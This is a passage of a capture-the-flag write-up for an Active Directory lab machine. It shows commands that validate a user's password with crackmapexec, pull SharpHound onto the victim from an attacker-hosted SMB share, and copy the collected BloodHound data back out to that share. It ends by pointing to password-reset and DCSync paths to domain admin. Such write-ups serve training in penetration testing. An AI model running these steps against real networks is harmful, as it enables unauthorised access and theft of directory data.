 As the port 5985 is open we can try to connect with the Olivia's credentials, we will use crackmapexec to check if they are valid.

```sh
crackmapexec winrm 10.10.11.42 -u olivia -p ichliebedich
```

![Pic]({{ '/assets/img/administrator/5pic.png' | relative_url }}){: .center-image }

The "pwned" word means that we can connect to the machine, to do that we will use **evil-winrm**.

Having access to the machine also being an AD enviroment we can try to use BloodHound to enumerate. To do that we will install it following the the steps defined in his [documentation](https://bloodhound.readthedocs.io/en/latest/installation/linux.html) to gather the needed information.

To transfer files between the machines we are going to use **smbserver.py** from impacket in the directory where the SharpHound.exe is.

```sh
python3 smbserver.py smbFolder $(pwd) -smb2support
```

And from the victim machine:

```sh
copy \\<your_ip>\smbFolder\SharpHound.exe .
```

![Pic]({{ '/assets/img/administrator/6pic.png' | relative_url }}){: .center-image }

Once SharpHound has been transfered we run the next command:


```sh
.\SharpHound.exe -c All -domain administrator.htb
```

This will generate a BloodHound.zip file, which we have to transfer to our machine using smbsever.py.

```sh
copy BloodHound.zip \\<your_ip>\smbFolder\BloodHound.zip
```

Now we have to import this file into the BloodHound application, at the top right "Update Data".
> In the case the upload is stopped in the 0% it used to be to the compatibility between BloodHound and SharpHound, I leave a resource of how to solve it [here](https://github.com/BloodHoundAD/BloodHound/issues/700).

Now we want to search for relations and permissions to escalate privileges. At the top left part we can put the user Olvia as starting point, and try with the different users to see if we have privileges over them. Also, if we click in the querys, the one which says "Find Shortest Path to Domain Admins" we can see that from the Emily user we can jump into Ethan user and this one can perform a DCSync attack.

## Explotation

If we click in the Olivia's node, we see that there is a section that says: "First Degree Object Control", if we click we see that we have the permission GenericAll over a user called Michael. This permission is also known as Full Control, which allows us to change his password.
